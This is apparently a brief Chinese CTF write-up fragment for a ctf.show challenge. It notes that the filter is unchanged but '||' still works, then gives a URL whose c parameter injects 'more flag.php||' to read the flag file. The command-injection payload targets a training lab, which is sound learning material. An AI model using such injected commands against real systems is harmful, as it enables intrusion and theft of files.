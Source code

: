 <figure><img src="../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

就是和以前一样过滤，但是我们的||还能用，所以可以继续使用

```php
http://4dca9ec0-61b7-4341-9aa0-af0be0639a36.challenge.ctf.show/?c=more flag.php||
```
